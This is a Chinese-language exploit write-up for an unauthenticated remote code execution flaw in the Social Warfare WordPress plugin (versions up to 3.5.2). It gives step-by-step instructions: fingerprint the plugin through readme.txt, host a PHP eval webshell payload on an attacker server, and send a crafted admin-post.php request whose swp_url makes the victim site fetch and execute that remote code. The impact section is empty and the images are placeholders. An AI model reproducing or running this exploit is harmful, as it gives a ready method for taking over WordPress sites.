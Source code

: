 WordPress Plugin - Social Warfare\<=3.5.2 RCE
=============================================

一、漏洞简介
------------

2019年3月21日插件作者紧急发布了3.5.3版本以修复高危的RCE漏洞，在\<=3.5.2版本中存在一处无需登录即可getshell的RCE漏洞。

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

在/wp-content/plugins/social-warfare/lib/utilities/SWP\_Database\_Migration.php文件中有一处eval()函数，该函数将file\_get\_contents()读取的文件内容当做PHP代码执行导致RCE。

![](./.resource/WordPressPlugin-SocialWarfare<=3.5.2RCE/media/rId25.png)

### 漏洞利用

第一步：刺探是否安装了Social Warfare插件

访问

    http://0-sec.org/wp-content/plugins/social-warfare/readme.txt

如果存在readme.txt文件则说明已经安装该插件，并且从该txt文件中可获知插件的版本。

我的本机环境为3.5.2版本。

![](./.resource/WordPressPlugin-SocialWarfare<=3.5.2RCE/media/rId27.png)

第二步：在自己的VPS服务器上放置一个code.txt文件，并启动HTTP服务使该文件可通过HTTP访问。文件内容如下：

    <pre>eval($_REQUEST['wpaa'])</pre>

第三步：在未登陆任何账号的情况下直接访问如下链接即可getshell。

    http://0-sec.org/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://your_ip/code.txt&wpaa=phpinfo();

image
